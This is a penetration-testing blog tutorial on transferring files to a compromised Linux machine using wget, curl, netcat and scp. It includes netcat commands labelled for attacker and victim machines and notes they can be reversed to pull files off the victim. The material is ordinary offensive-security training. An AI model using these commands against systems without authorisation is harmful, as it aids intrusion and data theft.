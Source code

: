 ```yaml
---
title: "Transfer files to a linux machine"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - tutorial
tags:
  - cybersecurity
  - penetration testing
---
```


This section is pulling from my online notes (here)[https://calvin-connor.gitbook.io/hacking-notes/general/transferring-files/transferring-files-to-linux], or at https://calvin-connor.gitbook.io/hacking-notes/.

## Overview

During an engagement, you may find certain tools do not exist, outbound ports have been blocked, and sometimes the machine is just too buggy to transfer your files the only way you know how. For this reason, I find it helpful to have an array of tools at my disposal. I would recommend practicing all the below examples until you know every way you can transfer a file in your specific scenario.

## HTTP

Once your file is hosted using HTTP,  you can access it with any of the methods below. I include :80 after my IPs to show you where you would put your port if you were using the non-default.
Wget

### wget 192.168.1.1:80/example.txt

A Linux command-line tool that you can find on most machines you will encounter.
Curl

### curl -O http://192.168.1.1:80/example.txt

If not told otherwise, curl writes the received data to stdout. It can be instructed to instead save that data into a local file, using the -o, --output or -O, --remote-name options.

### Netcat

nc -lvp 5555 > example.txt    //Attacker Machine

nc 192.168.1.1 5555 < example.txt    //Victim Machine

This is one of the rare instances where I include how to host the file as well, since Netcat is such a diverse tool and not just for file transfers. The way I remember the direction of arrows is first we need to send > the file and then receive < it. This tool is especially excellent in that you can reverse the order and download a file from the victim instead.

scp example.txt username@192.168.1.1:/tmp

This is more niche as it obviously relies on having SSH credentials. If you are using something like an id_rsa file instead, reflect those changes but keep the scp and :/tmp. The : is not an error here, I have forgotten it too many times. /tmp is whatever directory on the victim you want to transfer the file to.
